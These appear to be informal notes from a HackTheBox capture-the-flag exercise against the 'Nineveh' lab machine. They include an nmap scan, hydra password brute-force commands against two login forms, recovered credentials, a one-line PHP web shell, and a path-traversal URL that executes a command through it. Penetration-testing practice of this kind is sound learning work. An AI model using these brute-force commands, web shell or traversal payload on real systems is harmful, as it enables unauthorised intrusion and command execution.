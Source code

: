 Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 20:12 EDT
Nmap scan report for nineveh.htb (10.129.162.247)
Host is up (0.29s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1

the certificcate ot https site:

![](20230529201755.png) indiactes admin user exists

Login.php at /department by gobuster

gives invalid username and password error messages

![](20230529203531.png)

this indiacates that admin user exists

`sqlmap -r login.req` - no results

how to bruteforce for admin


also run gobuster onhttps site and we get /db page

using hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```

found a password
![](20230529212256.png)

[80][http-post-form] host: 10.129.162.247   login: admin   password: 1q2w3e4r5t

![](20230529214536.png)


. SecLists (apt install seclists) has a twitter-banned.txt that seems like a reasonable place to start:

password123 is a password

inside php <?php echo system($_REQUEST ["cmd"]); ?>

http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/random.php&cmd=ls

https://ranakhalil101.medium.com/hack-the-box-nineveh-writeup-w-o-metasploit-1e84173ba485


